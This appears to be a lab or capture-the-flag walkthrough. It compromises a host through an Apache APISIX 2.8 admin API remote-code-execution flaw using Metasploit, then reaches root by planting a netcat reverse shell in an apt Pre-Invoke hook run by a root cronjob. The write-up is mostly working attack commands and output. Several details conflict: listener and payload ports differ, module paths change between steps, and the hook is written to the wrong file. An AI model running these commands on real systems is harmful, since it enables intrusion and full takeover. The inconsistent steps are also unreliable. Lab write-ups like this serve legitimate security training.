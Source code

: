 ## Summary:

In this guide, we will take advantage of an RCE in `Apache Apisix 2.8` to gain an intial foothold before escalating privleges via a cronjob running the `apt package manager`.

## Enumeration

We start the enumeration process with an `nmap` scan:

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap 172.16.201.19 -p- -sVC
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-28 12:05 EDT
Nmap scan report for flimsy.com (172.16.201.19)
Host is up (0.048s latency).
Not shown: 65327 filtered tcp ports (no-response), 203 filtered tcp ports (host-prohibited)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
|_http-title: Upright
|_http-server-header: nginx/1.18.0 (Ubuntu)
3306/tcp  open   mysql      MySQL (unauthorized)
8080/tcp  closed http-proxy
43500/tcp open   http       OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We begin by adding `flimsy.com` to our `/etc/hosts` file.

```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
...
172.16.201.19 flimsy.com
```

On port `43500` we see that the `OpenResty web app server` is running.

Visiting `http://172.16.201.19:43500` we see the following `JSON` error message.

```
┌──(kali㉿kali)-[~]
└─$ curl http://172.16.201.19:43500 
{"error_msg":"404 Route Not Found"}
```

After researching the `{"error_msg":"404 Route Not Found"` error message we see that the webserver is using an `Apache Apisix` API Gateway.

In order to determine the `Apache Apisix` version we use `curl` with the `-I` option to fetch the headers only.

```
┌──(kali㉿kali)-[~]
└─$ curl -I  http://172.16.201.19:43500

HTTP/1.1 404 Not Found
Date: Thu, 28 Jul 2022 07:26:11 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

After Googling for any known vulnerabilities for `Apache Apisix 2.8` we came across `(CVE-2022-24112)` which allows an attacker to target the `batch-requests` plugin to bypass the IP restriction set on the Admin API.

https://www.exploit-db.com/exploits/50829

## Exploitation

We can use `metasploit` to exploit this vulnerability, searching for `apisix`.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole -q                                     
msf6 > search apisix

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_apisix_api_default_token_rce  2020-12-07       excellent  Yes    APISIX Admin API default access token RCE

...........
```

Now we set the following options to launch our attack:

```
use exploit/http/apache_apisix
set payload cmd/unix/reverse_bash
set rhosts flimsy.com
set rport 43500
set lhost 192.168.118.4
set targeturi /apisix
exploit
```

Confirming that our options are properly set

```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > options

Module options (exploit/multi/http/apache_apisix_api_default_token_rce):

   Name        Current Setting                   Required  Description
   ----        ---------------                   --------  -----------
   ALLOWED_IP  127.0.0.1                         yes       IP in the allowed list
   API_KEY     edd1c9f034335f136f87ad84b625c8f1  yes       Admin API KEY (Default: edd1c9f034335f136f87ad84b625c8f1)
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      flimsy.com                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       43500                             yes       The target port (TCP)
   SSL         false                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /apisix                           yes       Path to the APISIX DocumentRoot
   VHOST                                         no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun00             yes       The listen address (an interface may be specified)
   LPORT  4444              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Now we execute the exploit and receive a reverse shell as the user `franklin`.

```
msf6 exploit(http/apache_apisix) > exploit

[*] Started reverse TCP handler on 192.168.118.4:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 172.16.201.19:43500
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened ...

whoami

franklin
```

## Privilege Escalation

During our enumeration we check the contents of `/etc/crontab` and find a `cronjob` running.

```
cat /etc/crontab

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed 

* * * * * root apt-get update
* * * * * root /root/run.sh

```

As the service runs as `root` we can execute malicious commands via the `apt package manager`.

We begin by checking the writable permissions on `/etc/apt/apt.conf.d`:

```
ls -ld /etc/apt/apt.conf.d
-rwxrwxrwx. 1 root root 1338 Apr 28 13:45 /etc/apt/apt.conf.d
bash-4.2$
```

https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/

Now we insert a `bash` reverse shell payload inside `apt.conf.d`:

```
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <My-IP> 1234 >/tmp/f"};' > shell
```

Next, we start a listener on our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 445 
listening on [any] 445 ...
```

After waiting for a minute we get a shell as `root`.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 445 
listening on [any] 445
connect to [192.168.118.4] from (UNKNOWN) [172.16.201.19] 47052
...
whoami
whoami
root
```